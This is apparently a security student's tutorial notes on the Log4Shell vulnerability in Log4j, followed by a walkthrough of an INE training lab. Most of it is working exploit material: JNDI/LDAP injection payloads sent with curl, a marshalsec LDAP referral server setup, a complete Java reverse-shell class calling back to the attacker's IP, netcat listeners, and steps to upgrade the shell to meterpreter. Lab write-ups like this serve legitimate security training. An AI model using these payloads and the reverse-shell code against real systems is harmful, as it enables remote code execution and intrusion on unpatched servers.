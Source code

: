 ```yaml
---
description: 'Vul reported on 9/Dec/2021 on Apache Java Logging Lib: Log4J'
---
```


# Log4j Vulnerability (Log4Shell)

Background:

1-A quick 3 min video to get what all the fuss is about from Marcus Hutchins:

{% embed url="https://www.youtube.com/watch?t=77s&v=0-abhd-CLwQ" %}
\
\
2-reading:
{% endembed %}

* GOVCERT:&#x20;

{% embed url="https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j" %}

* More practical Demonstration from [Sophos](https://www.linkedin.com/company/sophos/):&#x20;

{% embed url="https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/amp" %}
\
\
\-Interesting stuff on the wild with [#interactsh](https://www.linkedin.com/feed/hashtag/?keywords=interactsh) also from [Sophos](https://www.linkedin.com/company/sophos/):&#x20;
{% endembed %}

{% embed url="https://news.sophos.com/en-us/2021/12/12/log4shell-hell-anatomy-of-an-exploit-outbreak/amp" %}
\
\
check-out the GitHub page this tool is a must in the arsenal:\
[https://github.com/projectdiscovery/interactsh](https://github.com/projectdiscovery/interactsh)
{% endembed %}

## Tut Notes:

#### Check if the server is vul:

1- start a server/listener:

```
nc -nlvp 1234
```

2- send a request to the potential vul point:

```
curl "<url>?cmd=$\{jndi:ldap://<attacker_IP>:1234\}"
```

if you received a conn (respond) in nc then it's vul.

{% embed url="https://canarytokens.org/generate" %}
to discover over WAN use CanaryTokens DNS
{% endembed %}

#### Exploiting the vul in your own LDAP server:

* we will be using the following script to automate:\
  [https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

1- Setup the a LDAP server so we can interpret the response:

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<attacker_IP>:8080/#Exploit"
```

> \#Exploit: is the name of the exploit we will creat.

* inside the poc.py there's the java code (in comment) copy it to a new `Exploit.java` file cuz this is the exploit. and fill in your `String host="<attacker`_`IP>";`  `int port = <nc_`_`port>;`\


2-compiling the exploit:

```
javac Exploit.java -source 8 -target 8
```

> \-source: Java version
>
> \-target: JDK version
>
> 1 warning don't worry about it

3- Setup the server to host the Exploit:

```
python -m SimpleHTTPServer 8080
```

> 8080 cuz that's the port we setup our ldap on.

4-Setup a listener to receive the conn from the target once it's exploited:

```
nc -nlvp 9999
```

> same port as the one in the Exploit.java

5-attack (sending the req):

```
curl '<target_url>?cmd=$\{jndi:ldap://<attacker_ip>:<ldap_port>/Exploit\}'
```

> \<ldap\_port>: from step 1&#x20;
>
> no reason to provide the extension ldap knows it by itself.

#### 🎉Now in nc you received a conn. and now you have a reverse shell.🎉

you can spawn a bash shell:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

and of course, you can upgrade to a meterpreter shell:

```
use multi/handler
set LHOST <attacker_ip>
set LPORT <port in java code>
run
background
session -u 1 <-this uses shell2meterpreter module
```

## Solving INE Box:

{% embed url="https://my.ine.com/CyberSecurity/courses/ebd09929/log4j-vulnerability-log4shell" %}

target: `demo.ine.local`

My IP: `192.10.137.2`

#### Footprinting:

```
~# nmap -sV demo.ine.local

Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-08 15:37 IST
Nmap scan report for demo.ine.local (192.10.137.3)
Host is up (0.0000090s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache Tomcat 8.5.3
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
```

runs Apache Tomcat while by default it doesn't really depend on Log4j but it can be config:

{% embed url="https://lists.apache.org/thread/m3bhytsh3yrhsxvo98vcyx4q6w0m1d4v" %}

Apache Jserv interesting but not tatrget here I know this ver is vul.

#### Checking for the vul:

```
nc -nlvp 1234
```

```
curl 'http://demo.ine.local/login?cmd=$\{jndi:ldap:192.10.137.2:1234\}'
```

we got a respone in nc it's vul...😀

Time to exploit it:

* my LDAP:

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.10.137.2:8080/#Exploit"

Listening on 0.0.0.0:1389
```

* nc lisnter:

```
nc -nlvp 9999
```

* Compiling the Java Exploit (RevShell):

```
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {
  public Exploit() throws Exception {

    String host="192.10.137.2";
    int port=9999;
    String cmd="/bin/sh";
    
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    
    Socket s=new Socket(host,port)
    
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();

    while(!s.isClosed()) {

      while(pi.available()>0)
        so.write(pi.read());

      while(pe.available()>0)
        so.write(pe.read());

      while(si.available()>0)
        po.write(si.read());

      so.flush();
      po.flush();
      Thread.sleep(50);

      try {
        p.exitValue();
        break;
      }
      catch (Exception e){}
    };
    p.destroy();
    s.close();
  }
}
```

```
javac Exploit.java -source 8 -target 8
```

* server Hosting the Exploit:

```
python -m SimpleHTTPServer 8080
```

* &#x20;exploit:

```
curl 'http://demo.ine.local/login?cmd=$\{jndi:ldap://192.10.137.2:1389/Exploit\}'
```

* Goal achived:

```
root@INE:~# nc -nlvp 9999
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.10.137.3.
Ncat: Connection from 192.10.137.3:46500.
ls
FLAG
tomcat8
cat FLAG
33fbfa01ec2f791096f13e01988a164e
```
